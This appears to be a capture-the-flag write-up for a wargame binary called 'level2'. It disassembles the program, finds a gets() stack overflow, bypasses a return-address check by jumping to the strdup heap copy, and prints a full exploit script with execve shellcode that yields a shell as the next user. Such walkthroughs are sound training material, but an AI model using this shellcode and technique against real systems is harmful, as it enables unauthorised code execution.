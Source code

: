 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level1](../level1/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level3 →](../level3/solution.md)
</span>
</span>

level2
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804853f <+0>:  push  ebp
   0x08048540 <+1>:  mov   ebp,esp
   0x08048542 <+3>:  and   esp,0xfffffff0
   0x08048545 <+6>:  call  0x80484d4 <p>
   0x0804854a <+11>: leave
   0x0804854b <+12>: ret
End of assembler dump.
```

It calls another function p:
```sh
FUNCTION=p EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

```nasm
Dump of assembler code for function p:
   0x080484d4 <+0>:     55                   push  ebp
   0x080484d5 <+1>:     89 e5                mov   ebp,esp
   0x080484d7 <+3>:     83 ec 68             sub   esp,0x68
   0x080484da <+6>:     a1 60 98 04 08       mov   eax,ds:0x8049860
   0x080484df <+11>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484e2 <+14>:    e8 c9 fe ff ff       call  0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x080484ea <+22>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484ed <+25>:    e8 ce fe ff ff       call  0x80483c0 <gets@plt>
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

The stack looks like this:
| Address | Type          | Size |
|---------|---------------|------|
| -0x4c   | char data[76] | 76   |
|  0x00   | *EBP          |  4   |
|  0x04   | *EIP          |  4   |

Exploitation
------------

This is another stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

We can override the value of EIP by using 80 bytes of padding, followed by the address we want to jump to.
We could try to jump onto the stack-buffer.

First we need to find out at which address the stack-buffer starts.
```sh
gdb ./level2 -batch -ex 'b * 0x080484f2' -ex 'r <<<ABCD' -ex 'p (char*)$ebp - 0x4c'
```
```
Breakpoint 1 at 0x80484f2

Breakpoint 1, 0x080484f2 in p ()
$1 = 0xbffff6ec "ABCD"
```

```sh
ADDRESS="bffff6ec"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(printf '%.0sA' {1..80}; echo $BYTES) | ./level2
```
```
(0xbffff6ec)
```

Oh no, it looks like we where caught!
```nasm
...
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
...
```

Upon closer inspection, we can see that the stored value of the EIP (EBP + 4) is checked and the program exits if it is above 0xb0000000.
So we cannot jump onto our stack-buffer.

But we can also see that our input is being duplicated into an unfreed heap-allocated buffer, before the function returns.
```nasm
...
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

If we find out it's address we can jump onto it instead of the stack-buffer, and bypass the stack-check.
```sh
gdb ./level2 -batch -ex 'b * 0x0804853e' -ex 'r <<<ABCD' -ex 'p (char*)$eax'
```
```
Breakpoint 1 at 0x804853e
ABCD

Breakpoint 1, 0x0804853e in p ()
$1 = 0x804a008 "ABCD
```

Perfect, now all that's left to do is to place some shellcode at the start of the buffer.

I'll use [Geyslan G. Bem's tiny shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php):


```sh
> /tmp/level2.sh cat << EOF
```
```bash
#!/usr/bin/env bash
RETURN_ADDRESS=0804a008
SIZE=80
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

LC_ALL=C # Count bytes instead of graphemes
BYTES=$(<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p)

PADDING_SIZE=$((SIZE-${#SHELLCODE}))
PADDING=$(printf '%.0sA' $(seq -s' ' "$PADDING_SIZE"))

echo "$SHELLCODE$PADDING$BYTES"
```
```sh
EOF
chmod +x /tmp/level2.sh
```

```sh
(/tmp/level2.sh; cat) | ./level2
```
```
1É÷á°
     Qh//shh/binã̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
whoami
level3
```
